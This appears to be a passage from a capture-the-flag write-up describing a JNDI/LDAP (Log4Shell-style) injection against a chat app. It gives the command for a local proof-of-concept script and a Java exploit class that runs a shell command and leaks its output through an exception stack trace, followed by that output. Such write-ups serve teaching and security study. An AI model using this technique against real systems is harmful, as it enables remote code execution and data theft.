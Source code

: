 When we type in the JNDI/LDAP uri into the chat app, we get an exception.  
![Screenshot from 2022-03-25 19-52-53](https://user-images.githubusercontent.com/58442255/160116092-7c0571f1-15ce-4f4e-b6a1-e6482c57fafc.png)

 
<details><summary>Java HTTP connection code (does not work on remote coffee chat app) (not very important)</summary></details>
However, a very detailed stack trace is printed. We can throw an exception to get output from commands.  
Here is my final crafted exploit program:  
  
**Note:** We must disconnect the python program and connect again (Ctrl+c)
  (the one started with  `python3 poc.py --userip localhost --webport 8000 --lport 9001` )
  
```python
  program = """

import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.net.HttpURLConnection;
import java.net.Socket;
import java.net.URL;
import java.net.URLEncoder;
import java.nio.charset.StandardCharsets;
import java.util.HashMap;
import java.util.Map;
import java.util.StringJoiner;


public class Exploit {
    public Exploit() throws Exception {

        Process p = Runtime.getRuntime().exec("ls");
        BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String line;
        StringBuilder line2 = new StringBuilder();

        while ((line = br.readLine()) != null) {
            line2.append(line);
            line2.append(",");
        }

        throw new Exception(line2.toString());
    }}
"""
```
  
This throws an exception with the output from `ls`.
  
We get this exception:

```java
  java.lang.Exception: bin,dev,etc,home,lib,media,mnt,proc,root,run,sbin,srv,sys,task,tmp,usr,var,]; remaining name 'a'
	at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1120)
	at com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
.................................lines truncated.....................

```
  